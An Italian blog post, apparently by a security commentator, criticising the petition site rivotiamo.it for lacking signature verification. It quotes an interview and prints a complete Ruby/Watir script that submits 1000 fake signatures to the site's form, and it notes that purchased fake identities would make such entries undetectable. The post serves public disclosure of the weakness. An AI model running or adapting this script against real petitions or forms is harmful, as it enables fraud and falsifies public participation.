 ```yaml
--- 
layout: post
title: "Rivotiamo.it: Qualche piccolo problema..."
meta: 
  article: "1"
  aktt_tweeted: "1"
  autometa: rivotiamo berlusconi forzaitalia forza italia rivotiamo.it matteo flora hacking
tags: 
- digital-freedom
- hacking
- security
---
```

Sul PuntoInformatico di [oggi](http://punto-informatico.it/p.aspx?i=2119270) è presente una [mia intervista](http://punto-informatico.it/p.aspx?i=2119270) con [Luca Annunziata](https://www.deandreis.it/l/profilo.aspx?n=Luca+Annunziata) in merito al sito <Rivotiamo.it>.  
  
Ne riporto alcuni stralci:  
  
> **Punto Informatico: Sul sito rivotiamo.it è possibile inserire firme fasulle. I gestori hanno rimosso quelle palesemente dubbie, ma è tuttora possibile continuare ad inserire false sottoscrizioni: c'è modo di verificare l'identità e l'autenticità dei firmatari?**  
> Matteo Flora: Per come il sistema è strutturato attualmente, il coefficiente di realtà delle firme espresse è prossimo allo zero. Con pochi spiccioli posso acquistare su web un elenco di centinaia di migliaia di nomi plausibili ma creati artificialmente, con relativa plausibile mail. Ma il sistema attuale non controlla nemmeno la mail di destinazione.  
>  
> **PI: Qualche esempio?**  
> MF: Personalmente ho testato un semplice script che ha creato parecchi voti con dati plausibili. Vedo chiaramente salire il contatore ma non l'ho mai visto scendere una sola volta. Ho monitorato il sistema negli ultimi 4 giorni e mai una volta mi sono ritrovato a vederlo scendere per la rimozione dei dati spuri.  
>  
> **PI: Si potrebbe migliorare la situazione?**  
> MF: Quanta difficoltà vi sarebbe stata nel predisporre per lo meno una mail di conferma? E soprattutto, essendo la soluzione così semplice, perché non approntarla e accollarsi invece tutti questi falsi positivi?  
>  
> **PI: E il filtro sugli IP suggerito dai gestori di rivotiamo.it.**  
> MF: Anche il filtro su base IP, tanto declamato, è in realtà molto dubbio: ad esempio per Fastweb (che espone su internet centinaia di migliaia di utenti da pochissimi IP utilizzando NAT) sarei curioso di sapere se si è deciso di non fare votare tutte queste persone o se si è preferito non implementare filtri.  
>  
> **PI: Esiste un sistema per creare una petizione online "sicura"? Una petizione, insomma, che sia valida a tutti gli effetti?**  
> MF: Ebbene sì, basterebbe che l'amministrazione statale avesse istruito i cittadini all'utilizzo della firma digitale! Senza andare a questi livelli di complessità, basterebbe un controllo formale più aggressivo, magari con nome, cognome e data di nascita, a tamponare l'enorme quantità di falsi positivi.  
>  
> **PI: Ci sono alternative al fai-da-te?**  
> MF: Esistono piattaforme storiche per la gestione delle petizioni, ma ciascuna di queste implementa per lo meno una serie di meccanismi di autenticazione. Che sia una mail di conferma, che sia un controllo formale dei dati o anche, solamente, l'invito a firmare una dichiarazione di conformità alla realtà dei dati immessi.  
>   
> **PI: E quindi?**  
> MF: E quindi sono perplesso.  
  
  
Mettiamo le cose in chiaro: non sono alla ricerca di facile notorietà e lo script esiste davvero. Si basa su Ruby e Watir e qui sotto ne trovate l'intero sorgente:  
  
  

[ruby]
require 'rubygems'
require 'SafariWatir'

startUrl = "http://www.rivotiamo.it/"

b = Watir::Safari.new
b.speed = :fast

(1..1000).each do |x|
  begin
    fakeName = rand(500000000).to_s(26)
    b.goto(startUrl)
    b.text_field(:id, "name").set(fakeName)
    b.text_field(:id, "surname").set(fakeName)
    b.text_field(:id, "cap").set(20000 + rand(400))
    fakeName = "#{fakeName}@#{fakeName}.com"
    b.text_field(:id, "email").set(fakeName)
    b.link(:id, "b_sign").click()
  rescue
    puts " Sh*i happens..."
  end
end
[/ruby]  
  
  
Cosa **genera** questo script?  
Semplicemente **voti spuri** che vengono conteggiati normalmente dal sistema. Eccone qui sotto la dimostrazione pratica:  
  
  
<object width="425" height="355"><param name="movie" value="http://www.youtube.com/v/xCUiXyQqUR0&rel=1"></param><param name="wmode" value="transparent"></param><embed src="http://www.youtube.com/v/xCUiXyQqUR0&rel=1" type="application/x-shockwave-flash" wmode="transparent" width="425" height="355"></embed></object>
  
  
Certo che i voti generati in questo modo sono assolutamente **semplici da individuare** (*ed era esattamente l'obiettivo*), ma basterebbe anche semplicemente **acquistare** qualche decina di migliaia di indirizzi "spuri" ma plausibili ad un sito come <http://www.fakenamegenerator.com> e lo script genererebbe voti che non sono distinguibili da quelli reali.  
  
Che dire? Semplicemente rimango **ancora più perplesso**. E che dire poi anche del simpatico [numero "899"](http://www.anti-phishing.it/news/articoli/news151107.php) che tanti hanno chiamato truffa?  
  
**P.S.** Giusto per dovere di cronaca: sono un elettore di **DESTRA** e teoricamente un elettore della compagine di Berlusconi. Quindi, per cortesia, evitate di **darmi del comunista** che mi offendo =]  
  
**UPDATE** Dietro al sito web **fervono movimenti** e una serie di brave manovre... Il codice sta cambiando a gran velocità e sembra che si stiano impementando una serie di blocchi, tra cui quello IP.  
Mi chiedo come faranno cone Fastweb e tutte le **centinaia di utenti** nattati sotto stesso IP. Mi sa che i prossimi test li farò da casa di un amico **con Fastweb** :)  
Probabilmente entro domani avremo una **bella differenza** dal risultato che ho ottenuto io... Pazienza, buone o cattive che siano le intenzioni l'importante, come al solito, è che le problematiche **vengano risolte** :P 
